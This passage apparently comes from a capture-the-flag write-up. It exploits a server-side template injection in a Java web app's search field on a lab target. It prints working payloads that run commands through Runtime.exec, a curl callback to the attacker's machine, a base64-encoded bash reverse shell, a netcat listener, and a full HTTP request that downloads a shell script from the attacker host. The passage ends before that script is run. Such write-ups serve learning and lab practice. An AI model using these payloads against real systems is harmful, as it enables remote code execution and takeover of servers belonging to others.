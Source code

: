 ```
You searched for: Process[pid=1620, exitValue=0]
```

To confirm that it was really executed, I tried sending a request to my machine.

```
name=*{T(java.lang.Runtime).getRuntime().exec('curl http://10.10.14.143')}
```

I received the request. 

```bash
$ nc -klvnp 80  
Listening on 0.0.0.0 80
Connection received on 10.129.49.130 42368
GET / HTTP/1.1
Host: 10.10.14.143
User-Agent: curl/7.68.0
Accept: */*
```

Next, I tried getting a reverse shell using the SSTI. 

```bash
$ echo 'bash  -i >& /dev/tcp/10.10.14.143/4444 0>&1 ' | base64 
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTQzLzQ0NDQgMD4mMSAK
```

I sent the command. It gave me a process, but my listener did not get a hit.

```
name=*{T(java.lang.Runtime).getRuntime().exec('echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTQzLzQ0NDQgMD4mMSAK | base64 -d | bash')}
```

I played with it but could not get it to work. So I decided to get the shell in two steps instead. 

I created a small shell script to create the reverse shell.

```bash
$ cat shell.sh          
echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTQzLzQ0NDQgMD4mMSAK | base64 -d | bash
```

I used the SSTI to get the script on the server.

```http
POST /search HTTP/1.1
Host: target.htb:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 100
Origin: http://target.htb:8080
Connection: close
Referer: http://target.htb:8080/
Upgrade-Insecure-Requests: 1

name=*{T(java.lang.Runtime).getRuntime().exec('curl http://10.10.14.143/shell.sh -o /tmp/shell.sh')}
```
